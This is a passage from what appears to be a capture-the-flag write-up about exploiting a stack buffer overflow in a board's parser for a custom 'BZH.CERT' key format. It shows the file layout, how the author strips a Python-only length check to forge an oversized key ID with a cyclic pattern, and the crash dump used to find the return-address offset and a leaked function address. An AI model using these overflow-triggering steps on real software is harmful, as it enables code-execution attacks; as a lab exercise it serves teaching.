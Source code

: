 We identified the overflow, but how to trigger it?

The opened file is in fact a public key coded in a custom format. Hopefully, the format is 1. given in the source code; 2. a given python code can convert a given `PEM` RSA-1024 private key into this format.

Basically the format is the follwing:
```python
f.write(b"BZH.CERT") # magic bytes :)
f.write(struct.pack("<Q", e))  # rsa_pub_exponent (8 bytes)
f.write(struct.pack("<I", n0inv))  # rsa_n0inv (4 bytes)
f.write(struct.pack("<32I", *rr))  # rsa_rr (128 bytes)
f.write(struct.pack("<32I", *rsa_pub_modulus))  # rsa_pub_modulus (128 bytes)
f.write(struct.pack("<I", len(KEY_ID))) # len_key_id (4 bytes)
f.write(KEY_ID)
```

We can forge our payload by modifying `convert-pem-to-breizhcertificate.py`:
- Remove `assert len(key_id) < 256, "Key id too long."` because the mitigation for the overflow is implemented in python, only *(not C...)*
- Use cyclic

`python3 convert-pem-to-breizhcertificate.py private.pem pubkey.breizhcertificate $(cyclic 500)`

We can see that the board crashes, but, it shows a register dump *(so neat)*!

```text
mounted /dev/virtioblk0 on /mnt/virtioblk0
[VERBOSE] &parse_pubkey=0000000092751244
using key: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraae 
Unhandled exception: 1 "Instruction access fault"
E [<6461616964616168>] ra: [<6461616964616168>] tval: 6461616964616168

sp:  00000000929ff5c0 gp:  0000000000000000 tp:  0000000000000000
t0:  00000000929ff519 t1:  6561617665616175 t2:  6561616465616163
s0:  6461616764616166 s1:  6461616564616164 a0:  0000000000000000
a1:  000000000000000a a2:  0000000000000000 a3:  fffffffffffffffe
a4:  0000000000000000 a5:  00000000927bdf60 a6:  0000000000000020
a7:  00000000929ff550 s2:  6461616364616162 s3:  6461617a63616179
s4:  6361617863616177 s5:  6361617663616175 s6:  6361617463616173
s7:  6361617263616171 s8:  000000008958af18 s9:  00000000929ff8e0
s10: 000000008958bda0 s11: 0000000000000000 t3:  6561616665616165
t4:  6561616865616167 t5:  6561616a65616169 t6:  00000000929ff794
### ERROR ### Please RESET the board ###
```

```
cyclic -l 0x6461616964616168 # ra/return address register        
328
```

We can get two informations out of this launch:
- we overwrite ra register at offset 328
- parse_pubkey address is `0x0000000092751244`, so we can debug and put a break-point on it! 
